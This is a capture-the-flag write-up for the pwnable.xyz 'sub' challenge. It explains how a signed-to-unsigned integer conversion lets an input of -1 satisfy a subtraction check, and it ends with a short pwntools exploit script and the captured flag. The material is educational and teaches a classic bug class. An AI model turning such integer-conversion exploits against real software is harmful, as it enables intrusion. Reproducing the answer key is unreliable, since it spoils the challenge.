


# pwnable.xyz - sub
Link to binary: https://pwnable.xyz/redisfiles/challenge_22.gz

Description: *Do you know basic math?*
 
## binary
Running `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.




The description and the name of the challenge already hint to a C arithmetic issue through subtraction, so we have an idea of what to expect.

## ./challenge
Running the binary prints a `1337 input:` prompt which seems to expect two numbers and then just exits. Let's decompile with **ghidra** and take a look at what the program actually does.

## Ghidra
### main()


It's a simple program that uses **__isoc99_scanf()** to read 2 integers separated by a space and converts them to **unsigned** before assigning them to a and b variables respectively. Then it checks that both a and b are less than **0x1337** and then subtracts b from a. If the result is *somehow* equal to **0x1337** it prints the flag. But how can the equation `a - b = 0x1337` be true?

## vulnerability
In C, integers are typically **4-byte** long and **signed**, which means that they have a value range of **-2,147,483,648** to **2,147,483,647**. Unsigned integers have a value range of **0** to **4,294,967,295**. Assigning a negative value to an unsigned integer, will result in assigning the bit value of said integer to the unsigned one. This means that -1, which in represented as **0xffffffff** in hex, will have the same hex value when converted to unsigned, but the corresponding decimal value will now be 4,294,967,295. So we basically **turned -1 into 4,294,967,295**.

## attack plan
The above equation should now seem more feasible. Since we can basically represent any 32-bit unsigned value using this trick, we just need to find 2 values for a and b that satisfy the equation. I used the values **4918 (0x1336)** and **-1 (0xffffffff)**. If the result of `0x1336 - 0xffffffff` isn't too obvious you can think it as `0x1336 - (-1) = 0x1336 + 1 = 0x1337`

## exploit
The script below just sends the 2 values to be subtracted and receives the flag.

```python
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
'''

IP = "svc.pwnable.xyz"
PORT = 30001

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    io.sendlineafter("1337 input:", "4918 -1")  # 0x1336 - 0xffffffff = 0x1337
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run it on the server and we get the flag:
`FLAG{sub_neg_==_add}`
